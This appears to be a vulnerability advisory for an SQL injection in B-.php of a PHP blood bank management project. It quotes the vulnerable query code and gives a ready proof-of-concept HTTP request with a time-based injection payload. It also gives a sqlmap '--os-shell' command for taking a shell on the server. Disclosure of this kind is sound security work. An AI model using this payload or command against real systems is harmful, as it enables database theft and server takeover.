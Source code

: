 # blood-bank-system-in-php B-.php getshell

[Blood Bank System In PHP With Source Code - Source Code & Projects (code-projects.org)](https://code-projects.org/blood-bank-system-in-php-with-source-code/)

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

## AFFECTED  VERSION(S)

### Vulnerable File

**/admin/blood/update/B-.php**

### VERSION(S)

-  v1.0

### Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

## PROBLEM TYPE

## Vulnerability Type

SQL INJECTION GET SHELL

## Root Cause

There are  sql injection in B-.php,Hacker can get shell via the vulnerable.

## Impact

## **Description of the vulnerability**

## B-.PHP

Get Bloodname value from $_POST，And join it to sql statement.  There is sql injection vulnerable.

```
$con= mysqli_connect('localhost', 'root', 'root');
mysqli_select_db($con,'bloodbank');
$Bloodname=$_POST['Bloodname'];
$availability=$_POST['Availibility'];
$unit=$_POST['unit'];
$s = "select * from b_ where Bloodname= '$Bloodname'";
$result = mysqli_query($con, $s);
```

​                                                                                                                                                                                                                                                                                                                                                                                                                  

## **Vulnerability recurrence**

### **POC**

```
POST /admin/blood/update/B-.php HTTP/1.1
Host: bloodbankmgmtsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://bloodbankmgmtsystem
Connection: close
Referer: http://bloodbankmgmtsystem/admin/blood/update/B-.php
Cookie: PHPSESSID=se5tfm9d762ti3jv5sctqmdl6n
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Bloodname=1' AND (SELECT 2801 FROM (SELECT(SLEEP(5)))iXJy)-- KPmd
```

save as 1.txt

We can get  databases name via the sql injection vulnerability.

Result

Since the default is the root database, you can also use some Trojans to obtain server permissions.

```
python sqlmap.py -r "1.txt" --level 3 --risk 2 --os-shell
```

![wps1](https://github.com/user-attachments/assets/c6464bab-66a4-45de-8ae4-d7c2e2b06ab2)